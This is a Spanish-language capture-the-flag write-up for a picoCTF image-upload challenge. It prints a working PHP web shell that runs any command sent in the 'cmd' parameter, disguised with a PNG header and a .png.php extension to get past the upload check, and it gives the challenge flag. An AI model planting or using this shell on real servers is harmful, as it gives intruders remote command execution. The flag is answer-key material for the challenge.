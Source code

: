 ## Description
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:53778/)!

## Solución
![[Pasted image 20241002000405.png]]
![[Pasted image 20241002000507.png]]
![[Pasted image 20241002000529.png]]
![[Pasted image 20241002000619.png]]

```txt
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
![[Pasted image 20241002001243.png]]
![[Pasted image 20241002001315.png]]
![[Pasted image 20241002001359.png]]
![[Pasted image 20241002001452.png]]
![[Pasted image 20241002001501.png]]
## Bandera
```css
flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}
```
## Notas Adicionales
Abrimos la página y nos pide subir una foto en formato *PNG* cuando la subimos, vemos que no hace nada la página. Revisamos el archivo ``robots.txt`` para ver qué otras pistas nos pueden servir.  Tendremos que crear un archivo de texto que contenga los caracteres ``PNG`` al principio para que lo interprete como PNG y además este llevará el código de este repositorio de git: [repo](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) Tendremos que guardar ese archivo con la siguiente extensión: `nombrearchivo.png.php` y subirlo así a la página. Posteriormente hay que entrar a la carpeta de `/uploads/nombrearchivo.png.php` Eso nos abrirá una terminal y tendremos que analizar los archivos de esta. Observaremos un archivo llamativo. Lo concatenaremos para ver su contenido y obtenemos la bandera.
# comandos utilizados

## Referencias
[GitRepo](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)